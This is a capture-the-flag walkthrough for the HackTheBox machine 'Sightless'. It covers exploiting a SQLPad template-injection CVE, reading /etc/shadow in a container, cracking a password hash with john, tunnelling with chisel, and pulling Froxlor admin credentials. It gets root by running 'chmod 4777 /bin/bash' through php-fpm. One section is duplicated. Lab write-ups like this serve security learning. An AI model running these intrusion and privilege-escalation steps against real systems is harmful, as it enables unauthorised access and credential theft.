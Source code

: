 ```yaml
---
sticker: lucide//eye-off
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | FTP     |
| 22   | SSH     |
| 80   |         |

Let's start with reconnaissance.

# RECONNAISSANCE
---

![](Pasted image 20250107170937.png)

`echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts 2>/dev/null`

![](Pasted image 20250107171213.png)

Now we can access the website, we have a `home`, `about`, `services` and a `contact us` part, if we go to the service part, we can see the following:

![](Pasted image 20250107171349.png)

We got a `sqlpad` service, if we click start now, we are redirected to `sqlpad.sightless.htb`, let's add this subdomain to `/etc/hosts` too:

![](Pasted image 20250107171612.png)

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](Pasted image 20250107172243.png)

Let's check the web and see if there's anything related to this version:

![](Pasted image 20250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](Pasted image 20250107182931.png)


# EXPLOITATION
---

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](Pasted image 20250107172243.png)

Let's check the web and see if there's anything related to this version:

![](Pasted image 20250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](Pasted image 20250107182931.png)

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize the shell]], we would think that we already beat the machine since we got root access but no, we are inside of a docker container, we need some sort of way to get into the real machine, that's when we find 2 users, Michael and node:

![](Pasted image 20250107183525.png)

![](Pasted image 20250107183536.png)


Since we already have root access in the docker container, let's read `/etc/shadow` and get the hash for michael user:

![](Pasted image 20250107183633.png)

```ad-note
Michael hash is: 

`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`

----
We need to crack this hash using john, let's do it:

`john hash -w=/usr/share/wordlist/rockyou.txt`

----
This will output: `insaneclownposse`


Let's log into ssh using those credentials:


`michael`:`insaneclownposse`
```



![](Pasted image 20250107184751.png)

Now we are inside of michael's account, we can read the user flag now:

```ad-note
![](Pasted image 20250107184841.png)
user flag: `fa24b7668682e82a648c821ccf0d9526`
```

# Privilege escalation
---

Let's proceed with privesc.

We'll be using linpeas to show use some possible PE vectors:

![](Pasted image 20250107185646.png)

There is a weird connection made to the port `8080`, we need to investigate this, for this, we will use chisel as we need to resend the traffic back to our local machine:

```ad-hint

##### Doing a reverse proxy
---
1. `chisel server -p 9999 --reverse`
2. `chmod +x chisel`
3. `./chisel client 10.10.15.36:9999 R:8080:127.0.0.1:8080`

![](Pasted image 20250107192250.png)
![](Pasted image 20250107192300.png)

```

Now, let's visit the page:

![](Pasted image 20250107192343.png)

It's executing froxlor, in order to get the credentials, we'll be using the following exploit: [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), this is basically a chrome remote debugger pentest, since the machine is running chrome actively, we can use this to exploit and access the credentials, once we've reproduce all the steps accordingly to the notes, we get the following credentials:

```ad-note

`admin`:`ForlorfroxAdmin`

```


Let's log into the panel:

![](Pasted image 20250107193550.png)

We got access to the panel, as seen, we have a php section, this has the following:

![](Pasted image 20250107193639.png)

We got `php-fpm`, we are able to execute php code, we can do the following:

```ad-note
1. Create new PHP version
2. `chmod 4777 /bin/bash`
3. Go to `/system/settings/php-fpm`, disable it and enable it again
4. Go to our terminal and perform `/bin/bash -p`
5. Get root shell
```


```ad-important
If we did all correctly, we are able to get root access:

![](Pasted image 20250107194238.png)

This is the root flag:

![](Pasted image 20250107194255.png)

Root: `1c4c6860beaa42a5b9b8e404fbcbf656`


```
